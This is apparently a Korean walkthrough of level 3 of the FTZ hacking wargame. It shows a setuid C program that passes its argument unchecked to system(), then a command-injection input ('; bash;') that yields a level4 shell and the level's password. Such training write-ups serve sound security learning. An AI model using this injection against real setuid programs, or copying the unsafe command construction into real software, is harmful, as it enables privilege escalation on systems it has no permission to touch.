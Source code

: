 # Level3

`[level3@ftz level3]$ cat hint`

다음 코드는 **autodig**의 소스이다.
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

char cmd[100];

if( argc!=2 ){
    printf( "Auto Digger Version 0.9\n" );
    printf( "Usage : %s host\n", argv[0] );
    exit(0);
}

strcpy( cmd, "dig @" );
strcat( cmd, argv[1] );
strcat( cmd, " version.bind chaos txt");

system( cmd );
}
```

이를 이용하여 level4의 권한을 얻어라.

more hints.

1) 동시에 여러 명령어를 사용하려면?

2) 문자열 형태로 명령어를 전달하려면?

***

`[level3@ftz level3]$ find / -name autodig 2>/dev/null`

/bin/autodig

`[level3@ftz level3]$ find / -user level4 -perm -4000 2>/dev/null`

/bin/autodig

`[level3@ftz level3]$ ls -l /bin/autodig`

-rwsr-x---    1 level4   level3      12194 Aug 19  2014 /bin/autodig

`[level3@ftz level3]$ /bin/autodig "8.8.8.8 www.naver.com; bash;"`

; <<>> DiG 9.2.1 <<>> @8.8.8.8 www.naver.com   
;; global options:  printcmd   
;; Got answer:   
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 32087   
;; flags: qr rd ra; QUERY: 1, ANSWER: 4, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:   
;www.naver.com.                 IN      A

;; ANSWER SECTION:   
www.naver.com.          17776   IN      CNAME   www.naver.com.nheos.com.   
www.naver.com.nheos.com. 7855   IN      CNAME   www.naver.com.edgekey.net.   
www.naver.com.edgekey.net. 17356 IN     CNAME   e6030.a.akamaiedge.net.   
e6030.a.akamaiedge.net. 19      IN      A       23.35.221.113

;; Query time: 35 msec   
;; SERVER: 8.8.8.8#53(8.8.8.8)   
;; WHEN: Fri Jun  4 13:03:43 2021   
;; MSG SIZE  rcvd: 153   

***

`[level4@ftz level3]$ my-pass`

Level4 Password is "suck my brain".

